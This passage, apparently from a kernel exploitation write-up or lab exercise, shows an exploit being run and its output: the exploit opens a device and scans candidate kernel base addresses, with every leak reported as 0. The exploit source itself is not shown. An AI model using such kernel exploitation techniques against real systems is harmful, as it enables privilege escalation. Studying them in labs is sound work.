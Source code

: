 Before testing remember to restore `initramfs/etc/init.d/rcS` to its initial state. Running our exploit we get:

    / $ ./exploit 
    [+] Device Opened
    Possible Kernel Base Address: ffffffff80000000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80100000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80200000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80300000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80400000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80500000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80600000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80700000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80800000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80900000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80a00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80b00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80c00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80d00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80e00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff80f00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81000000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81100000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81200000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81300000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81400000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81500000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81600000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81700000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81800000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81900000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81a00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81b00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81c00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81d00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81e00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff81f00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82000000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82100000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82200000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82300000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82400000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82500000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82600000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82700000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82800000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82900000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82a00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82b00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82c00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82d00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82e00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff82f00000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83000000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83100000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83200000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83300000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83400000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83500000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83600000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83700000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83800000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83900000 ==> Leak: 0
    Possible Kernel Base Address: ffffffff83a00000 ==> Leak: 0